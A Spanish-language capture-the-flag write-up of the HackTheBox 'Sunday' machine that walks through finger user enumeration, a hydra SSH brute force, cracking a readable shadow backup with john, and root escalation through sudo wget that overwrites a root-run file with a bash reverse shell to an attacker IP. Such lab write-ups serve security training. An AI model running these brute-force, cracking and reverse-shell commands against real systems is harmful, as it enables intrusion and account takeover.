






HackTheBox
Easy
Solaris
Finger
SSH Brute Force
Shadow Backup
Sudo wget
Sunday
Finger enumera usuarios; brute force SSH; backup de shadow con hashes crackeables; escalada via sudo wget.
cat4clysm
Herramientas utilizadas
nmap
masscan
hydra
john
finger-user-enum
Scanning
root@kali:~$
masscan -e tun0 --open -p 1-65535 --max-rate 1000 10.10.10.76
nmap -n -Pn -sC -sV -p 79,111,22022,34825,35830 10.10.10.76 -oN targeted

Puerto 79 - Finger Enumeration
root@kali:~$
finger-user-enum.pl -U /usr/share/SecLists/Usernames/Names/names.txt -t 10.10.10.76
sammy, sunnySSH Brute Force
root@kali:~$
hydra -L users.txt -P /usr/share/SecLists/Passwords/probable-v2-top1575.txt -t 64 -s 22022 10.10.10.76 ssh
# login: sunny / password: sunday
root@kali:~$
ssh sunny@10.10.10.76 -p 22022 -oKexAlgorithms=+diffie-hellman-group1-sha1
Shadow Backup - Hash Cracking
root@kali:~$
cat /backup/shadow.backupjohn --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# sammy: cooldude!
Escalada - Sudo wget
sammy puede ejecutar sudo wget. Usamos una shell reversa via wget overwrite:
root@kali:~$
# Atacante: preparamos shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.14/8888 0>&1
sudo python3 -m http.server 80root@kali:~$
# Usuario sammy:
sudo wget http://10.10.14.14/shell.sh -O /root/trollroot@kali:~$
# Usuario sunny:
sudo /root/trollcat /export/home/sammy/Desktop/user.txt
cat /root/root.txtLecciones aprendidas
- El protocolo Finger expone usuarios del sistema sin autenticacion.
- Los backups de /etc/shadow accesibles por usuarios normales permiten crackear contrasenas.
- sudo wget con capacidad de overwrite permite escalada escribiendo archivos ejecutados como root.